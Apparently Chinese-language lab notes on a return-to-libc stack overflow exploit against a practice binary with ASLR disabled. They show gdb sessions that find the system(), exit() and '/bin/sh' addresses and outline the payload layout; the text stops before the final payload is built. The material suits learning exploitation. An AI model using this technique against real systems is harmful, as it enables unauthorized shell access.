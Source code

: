 - 栈溢出的return to libc利用实践
  - 获得system()和exit()函数地址
  - 获得"/bin/sh"字符串地址
  - 构造溢出载荷 `system + exit + "/bin/sh" + 0`
  - 实验在关闭ASLR情况下进行，libc函数地址固定不变

- 获得system()与exit()函数地址

可以在gdb中直接用print命令查看system和exit函数地址

```
$ gdb -q --args ./bof $(python -c 'print "A" * 140 + "BBBB"')
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/sh4rk/pwnable/bof AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
argv[1]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e3fd80 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e339b0 <__GI_exit>
(gdb) 
```

- 查找glibc中字符串"/bin/sh"的地址

  glibc中必定有字符串"/bin/sh"，可以使用gdb中find命令，在libc的内存范围内搜索。0xf7e05000是libc起始地址，0xf7fb8000是结尾。

  ```
  (gdb) info proc mappings
  process 22429
  Mapped address spaces:
      Start Addr  End Addr    Size   Offset objfile
       0x8048000 0x8049000   0x1000    0x0 /home/sh4rk/pwnable/bof
       0x8049000 0x804a000   0x1000    0x0 /home/sh4rk/pwnable/bof
       0x804a000 0x806b000  0x21000    0x0 [heap]
      0xf7e05000 0xf7fb4000  0x1af000    0x0 /lib/i386-linux-gnu/libc-2.23.so         # 起始地址 0xf7e05000
      0xf7fb4000 0xf7fb5000   0x1000  0x1af000 /lib/i386-linux-gnu/libc-2.23.so
      0xf7fb5000 0xf7fb7000   0x2000  0x1af000 /lib/i386-linux-gnu/libc-2.23.so
      0xf7fb7000 0xf7fb8000   0x1000  0x1b1000 /lib/i386-linux-gnu/libc-2.23.so       # 结束地址 0xf7fb8000
      ...
      0xfffdd000 0xffffe000  0x21000    0x0 [stack]
  (gdb) find /b 0xf7e05000, 0xf7fb8000, '/', 'b', 'i', 'n', '/', 's', 'h', 0
  0xf7f60a3f
  1 pattern found.
  (gdb) x/s 0xf7f60a3f
  0xf7f60a3f:   "/bin/sh"
  (gdb) 
  ```

- 获取地址的另一种方法
  - 首先用ldd命令获取libc基址
  - 然后用readelf命令找到system和exit函数在libc中的偏移
  - 用strings命令找到字符串/bin/sh在libc中的偏移
  - 最后通过与libc基址相加来获得最终地址。
  